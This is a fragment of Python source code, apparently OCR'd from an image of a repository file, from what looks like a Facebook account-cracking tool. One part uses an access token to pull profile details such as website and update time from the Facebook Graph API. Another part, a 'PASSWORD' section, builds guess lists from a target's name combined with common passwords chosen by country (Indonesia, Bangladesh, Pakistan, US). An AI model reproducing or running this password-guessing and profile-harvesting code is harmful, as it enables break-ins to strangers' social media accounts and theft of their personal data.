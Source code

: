 				jok = requests.get("https://graph.facebook.com/"+idt+"?access_token="+toket)
				op = json.loads(jok.text)
				print((k+"["+p+"•"+k+"]"+p+" Website          : "+op["website"]))
			except KeyError:
				print((k+"["+p+"•"+k+"]"+p+" Website          : -"))
			except IOError:
				print((k+"["+p+"•"+k+"]"+p+" Website          : -"))
			try:
				jok = requests.get("https://graph.facebook.com/"+idt+"?access_token="+toket)
				op = json.loads(jok.text)
				print((k+"["+p+"•"+k+"]"+p+" Update Time      : "+op["updated_time"]))
			except KeyError:
				print((k+"["+p+"•"+k+"]"+p+" Update Time      : -"))
			except IOError:
				print((k+"["+p+"•"+k+"]"+p+" Update Time      : -"))
			input(k+"\n[ "+p+"Kembali"+k+" ]"+p)
			menu()
		except KeyError:
			input(k+"\n[ "+p+"Kembali"+k+" ]"+p)
			menu()
	except Exception as e:
		exit(k+"["+p+"•"+k+"]"+p+" Error : %s"%e)

### PASSWORD ###

def generate(text):
	results=[]
	ct = open('country.txt', 'r').read()
	for i in text.split(" "):
		if len(i)<3:
			continue
		else:
			i=i.lower()
			if len(i)==3 or len(i)==4 or len(i)==5:
				results.append(i+"123")
				results.append(i+"12345")
			else:
				results.append(i+"123")
				results.append(i+"12345")
				results.append(i)
				if "id" in ct:
					results.append("sayang")
					results.append("bismillah")
					results.append("anjing")
					results.append("123456")
				elif "bd" in ct:
					results.append("786786")
					results.append("000786")
					results.append("102030")
					results.append("556677")
				elif "pk" in ct:
					results.append("pakistan")
					results.append("786786")
					results.append("000786")
				elif "us" in ct:
					results.append("123456")
					results.append("qwerty")
					results.append("iloveyou")
					results.append("passwords")
	return results
